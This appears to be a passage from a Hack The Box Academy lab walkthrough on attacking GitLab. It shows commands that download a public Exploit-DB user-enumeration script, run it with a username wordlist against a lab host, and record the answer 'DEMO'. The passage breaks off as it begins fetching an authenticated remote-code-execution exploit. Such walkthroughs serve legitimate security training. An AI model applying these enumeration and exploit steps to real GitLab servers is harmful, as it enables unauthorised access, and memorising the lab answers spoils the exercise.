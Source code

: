 Then, using `searchsploit`, students need to download the [GitLab Community Edition User Enumeration script](https://www.exploit-db.com/exploits/49821) on Pwnbox/`PMVPN`:

Code: shell

```shell
searchsploit -m ruby/webapps/49821.sh
```

```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-xk6dxgmeci]─[~]
└──╼ [★]$ searchsploit -m ruby/webapps/49821.sh

  Exploit: GitLab Community Edition (CE) 13.10.3 - User Enumeration
      URL: https://www.exploit-db.com/exploits/49821
     Path: /usr/share/exploitdb/exploits/ruby/webapps/49821.sh
File Type: ASCII text

Copied to: /home/htb-ac413848/49821.sh
```

Students need to use the script to enumerate valid users:

Code: shell

```shell
./49821.sh --url http://gitlab.inlanefreight.local:8081 --userlist /opt/useful/SecLists/Usernames/cirt-default-usernames.txt | grep exists
```

```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-xk6dxgmeci]─[~]
└──╼ [★]$ ./49821.sh --url http://gitlab.inlanefreight.local:8081 --userlist /opt/useful/SecLists/Usernames/cirt-default-usernames.txt | grep exists

[+] The username DEMO exists!
```

The other valid user is `DEMO`.

Answer: `DEMO`

# Attacking GitLab

## Question 2

### "Gain remote code execution on the GitLab instance. Submit the flag in the directory you land in."

Building on the previous question and the `GitLab` user created in the previous section, students first need to download the [Gitlab 13.10.2 - Remote Code Execution (Authenticated)](https://www.exploit-db.com/exploits/49951) exploit using `searchsploit`:

Code: shell

```shell
searchsploit -m ruby/webapps/49951.py
```
